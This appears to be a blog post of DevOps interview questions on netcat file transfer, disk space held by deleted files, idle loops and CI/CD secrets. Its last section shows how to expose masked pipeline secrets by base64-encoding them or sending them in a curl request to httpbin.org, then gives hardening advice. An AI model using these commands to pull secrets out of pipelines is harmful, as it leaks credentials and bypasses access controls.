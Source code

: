 ```yaml
---
title: "DevOps interview questions - Part 2 📓"
date: 2020-01-19T09:35:31-04:00
author: Stefan Caraiman
categories:
  - devops
  - interview-questions
  - linux
  - blog
tags:
  - linux
  - devops
  - interview
  - debugging
classes: wide
header:
  image: "https://www.onlineinterviewquestions.com/storage/categories/June2018/Devops-Interview-Questions.jpg"
toc: true
toc_label: "Setup of Library Charts"
toc_icon: "cogs"
---
```


Welcome back to part 2 of the DevOps interview questions blog series. 👋

I won't bore you with any other side details and contexts, so let's get straight into the **questions**


## Copying files between servers without SSH/SCP

This is more of a "thinking outside the box" kind of question, since it's not that widely used in the wild. The only few times when I had come across this was either during other interviews or CTF events, nonetheless it's quite a fun brain teaser.

The most common solution which I came across was by using `nc`. Netcat is a very useful tool available on all unix systems which can come in quite handy.

```console
$ nc -l 2020 > some_binary.bin # On the receiving host
$ nc 192.168.0.10 2020 < some_binary.bin # On the host sending the file
```

Another solution which I saw a colleague use some time ago, was to `base64` encode the file and copy paste the contents of the file to the other server and then decoding the base64 content. Like the good ol' saying, `it ain't stupid if it works` am I right?

## Why is space not being freed from disk after deleting a file?

This question can be asked in a number of ways, like `Why are the df and du commands show different disk usage?` or `I've deleted some files but the amount of free space on the filesystem has not changed.`, but the solution in most cases is the same.

Even if you remove the big pesky log file which was eating away at your storage, the process which was using the said file might still be running and using that file descriptor(remember Part 1 of the blog series).

The solution in this case would be to simply restart/kill the said process, so that the file descriptor handle is gone.

```console
$ lsof +L1 | grep "name-of-delete-log|name-of-the-process"
$ kill -9 ${PROCESS_USING_THE_BIG_FILE}
```

Another solution might be truncating the file via the `proc` file system. Let's pretend the PID number is `2020` and the `fd` is `19`. 

```console
$ echo > /proc/2020/fd/19
```

Thus we do not require a restart of the process, but beware that this solution might have adverse effects on the running process, so make sure this is applicable in your case.

## Ways of doing nothing forever?

What ways can you think of, of making a script do nothing forever?

### `sleep`-ing to infinity

```console
$ sleep infinity
```

The sleep command allows and honors a non-integer number of seconds to sleep in any form acceptable by `strtod`, which can also be `infinity`.

### `tail`-ing of `/dev/null`

```console
$ tail -f /dev/null
```

I think this one is pretty clever, it will simply keep the `stdout` open, but not write anything to it, unlike something like `yes` which also theoretically runs for infinity, but writes to `stdout`, thus not being such an optimal solution of really doing nothing.

### Using the `pause` system call

```pause() causes the calling process (or thread) to sleep until a signal is delivered``` according to the manual pages, which is exactly what we want to achieve. 
The shortest and most elegant version of using the `pause` system call which I found would be by calling it from Perl.

```console
$ perl -MPOSIX -e pause
```

## Ways of exposing a secret environment variable from CI/CD pipeline?

There will be times in the career of any engineer where they will get their hands on a CI/CD system, and they might not have the necessary access to see secret environment variables, such as the user and password to a registry.

This in itself is not an issue, until the moment when you realize that those variables are not setup up correctly on multiple pipelines and you are currently blocked due to the fact that you can't set them up or even see them, since most CI/CD system will mask(or should mask, if it does not do this, maybe you should rethink about why you are using that system) such variables from showing in the STDOUT/output of the pipeline.

For the sake of the question, we will presume we can modify the CI/CD pipeline

P.S: I'm not advocating that any of these are a secure or moral way of getting around the problem and highlighting some security risks, which you should consider on harderning.

### `echo` the variable in `base64`

```console
echo $MY_SECRET_VAR | base64
```

### curl any endpoint that returns the request back

```
curl -X GET "https://httpbin.org/$MY_SECRET_VAR" -H "accept: application/json"
```

This one might not work due to the fact that the `STDOUT` will contain the secret value, but if you have acccess to the access logs of the endpoint that you are sending the request to, you will be able to see it on that side.

### How can you protect against this?

You should make secret environment variables accessible only on protected branches, so that they cannot be exfiltrated.

If the CI/CD permits, you should also block edit of the pipeline definition.


## Conclusion

I think most of the questions described above can be addresed across different seniorities/positions, since the creativity of the answers and the depth of the understading of the issue, can greatly vary from individual to individual, being of great aid in understading how the other person can think and analyze a problem.

Stay close for part 3 of this blog series, happy learning!
